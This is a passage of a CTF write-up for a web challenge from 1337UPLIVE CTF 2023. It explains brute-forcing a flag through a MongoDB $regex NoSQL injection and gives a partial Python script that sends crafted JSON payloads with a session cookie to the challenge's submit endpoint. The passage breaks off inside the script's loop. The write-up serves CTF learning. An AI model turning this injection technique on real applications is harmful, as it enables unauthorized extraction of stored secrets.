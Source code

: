 ```yaml
---
title: "1337UPLIVE CTF 2023"
description: "Writeup for web challenges in 1337UPLIVE CTF 2023"
summary: "Writeup for web challenges in 1337UPLIVE CTF 2023"
categories: ["Writeup"]
tags: ["Web Exploitation","OSINT","MISC", "CTF"]
#externalUrl: ""
date: 2023-11-20
draft: false
---
```





## Overview
I join with my team (**BKISC**) that participated in this CTF organized by **Intigriti** and got 2nd place 🥳🥳🥳.
![image](https://hackmd.io/_uploads/SkdTGMPEp.png)

## Writeup
### **1. CTFC**
- **Author:** Jopraveen
- **Caterogy:** Web
- **Description:** I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺

![image](https://hackmd.io/_uploads/ryfoXGDEp.png)

**Solution:**
After register and login to homepage, I found 2 place that submit flag can be cracktation and another is base64 decode. But this is not the flag i need so i open burp and send request. 
![image](https://hackmd.io/_uploads/BJJljMPNa.png)
Idea:
> - Flag maybe in id challenge 3.
> - I don't know the flag but can brute it with **$regex**
> - The format flag is "INTIGRITI{}"

Final script:
```python!
import requests
import string

url = 'https://ctfc.ctf.intigriti.io/submit_flag'

flag = "INTIGRITI{"

headers = {
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImZkZDAwOGZmNmE0ZjQxN2JhOTI3ZTJiZTkyZWVjYzk5IiwidXNlcm5hbWUiOiJhIn19.ZVmVAQ.UxOlP1pYJWttIh4U-MQimuCwaDc',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
}

for i in string.ascii_letters + string.digits + "_{}*,.@#%&":
    json_payload = {
        "_id": "_id:3",
        "challenge_flag": {
            "$regex": f"^{flag+i}.*"
```